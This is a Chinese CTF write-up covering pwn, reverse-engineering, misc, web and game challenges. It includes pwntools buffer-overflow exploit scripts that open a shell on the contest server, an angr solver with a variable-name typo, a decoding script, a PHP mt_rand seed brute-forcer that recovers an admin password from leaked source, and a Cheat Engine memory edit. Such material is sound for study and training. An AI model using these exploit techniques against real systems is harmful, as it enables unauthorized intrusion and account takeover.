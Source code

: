 #return 0; wp  
##pwn  
###1. Password_checker  
![](https://i.imgur.com/JwjIu9J.png)  

![](https://i.imgur.com/AO4VZzy.png)

```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20002)
p.sendline('a'*(260-4))
p.sendline('s'+p32(0x8048674)*8)
p.interactive()
```
然后在出来的文件系统中找到home/ctf/flag文件即可获得flag

###2. overflow  
![](https://i.imgur.com/Td3r3LN.jpg)
下载文件之后  
直接拖进ida
然后找到main函数和旁边的sub_80485BD，溢出一下得到flag
```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20001)
libc = CDLL('libc.so.6')
t=libc.time(0)
print(hex(t))
libc.srand(t)
anser=libc.rand()
print(hex(anser))
p.sendline('a'*(0xFFC511CC-0xFFC511AC)+p32(anser)+'b'*(0xFFC511DC-0xFFC511CC-4)+p32(0x080485BD))

p.interactive()
```
##rev  
###middle  
```python
#!/usr/bin/env python
# coding=utf-8
import angr,string
import claripy
import pickle
import sys
import logging
import time
logging.getLogger('angr').setLevel('WARNING')

p = angr.Project('./middle.bin', load_options={'auto_load_libs': False})

# 804A0D8
# 804A0D0

def decode():  # 400D33
    symbols = [claripy.BVS('crypto%d' % i, 8) for i in range(24)]
    
    Content = claripy.Concat(*symbols)
    Stat0e = p.factory.blank_state(
        addr=0x000000080488EB ,
        stdin=Content,
        #add_options=angr.options.unicorn, #| {angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY},
        remove_options={}
    )
    key = [claripy.BVS('key%d' % i, 8) for i in range(4)]
    state.memory.store(0x804A0D4,claripy.Concat(*key),4)
  
    for k in symbols:
        state.solver.add(k != 10)
        so1=state.solver.And( k > 8, k < 14)
        so2=state.solver.And( k > 31, k < 127)
        state.solver.add(state.solver.Or(so1,so2)==True)
    @p.hook(0x00000080489C3, length=5)
    def index(_state):
        print(_state, '233333')
    @p.hook(0x0000804882A, length=0)
    def index(_state):
        print(_state, '0x0000804882A')
    
    @p.hook(0x0008048831 , length=6)
    def index(_state):
        print(_state, 'pass')
        
        
    @p.hook(0x00804883E, length=0)
    def index(_state):
        print(_state, 'no pass')
    
    @p.hook(0x0008048863 , length=0)
    def index(_state):
        print(_state, '08048899')
      
    simulation = p.factory.simulation_manager(state)
    res = simulation.explore(find=0x0080488AF ,avoid=[0x080488BD ])  # , enable_veritesting=True
    print(len(res.found))
    result = []
    for pp in res.found:
        tmp = pp.solver.eval_upto(Content, 10,cast_to=bytes)
        print('yes',tmp)
        tmp = pp.solver.eval_upto(claripy.Concat(*key),10, cast_to=bytes)
        print('yes',tmp)
if __name__ == "__main__":
    decode()
```
##misc
###plot
用CAXA编程助手打开即得到flag
![](https://i.imgur.com/5NMqPxc.png)

###rev  
```python
enc_flag = '86la1l52l9fl93l9dl97l52l9bla6l52l9fla1la4l97l52l96l9bl98l98l9bl95la7l9ela6l52la6la1l52l95l93l9el95la7l9el93la6l97l52la6l9al97l52l98l9el93l99l52l94labl52l9al93la0l96l5el52la0la7l93l93l95la6l98ladla2labl91la7la0l95la1l9fla2labl9el97lafl5el52l98l9el93l99l52l9bla5l52l98la1la4l52la5l95la4l9bla2la6la5l'
enc_flag=enc_flag.replace('l','')
b=bytes.fromhex(enc_flag)

print(b)
for k in b:
    print(chr(k-50),end='')
```



##Web  
###令人怀念的南邮综合题（确确实实是做出来了那种感觉）  
![](http://thyrsi.com/t6/639/1545616214x2728278644.png)  

先wascan扫一遍后台（抱歉咯）XD
发现存在一个www.zip的文件，下载以后打开发现是几个源码
然后就是痛苦的代码审计

![](http://thyrsi.com/t6/639/1545616764x2890174375.png)
在百度了两千年以后发现这边有点毛病，看上去管理员的密码是可控的，
然后就在网页里边随便注册了一个（其实是好几个）账号，
点击某个按钮以后跳转到某个网页，给了个int的值
![](http://thyrsi.com/t6/639/1545617009x2890174375.png)
（其实在此之前还跑了很多遍这个网页，操作成功的不是这个值）
```php
<?php
ini_set('max_execution_time', '0');
for($i=100000;$i++;$i<=1000000){
    mt_srand($i);
	if(mt_rand() == $_GET[1]){
        die(substr(md5(mt_rand()),0,6));
    }
}
?>

```
然后跑一下这串代码，得到admin（几来着）的密码，fefe还是tete什么的来着
最后登录admin拿到flag


##Re  
###车万狗的基本素养  

####这道题真的不是misc吗？  

————————————————————————————————————————————————

打开游戏，强打，失败（灵力真是少得可怜啊

然后开ce，老规矩，先吃几个p点，我这里是吃到1.12以后然后开始搜索的
ce搜索112，发现有个地址先前的值为100，那肯定就是灵力没跑了，修改值为400，然后锁定
![](http://thyrsi.com/t6/639/1545617335x2890174375.png)

后来发现满灵力是500，索性就改了（这真的是dld而不是fsl么

最后进游戏，一路炸炸炸，拿到flag

![](http://thyrsi.com/t6/639/1545617412x2890174375.png)


答应我，下次用luastg好吗

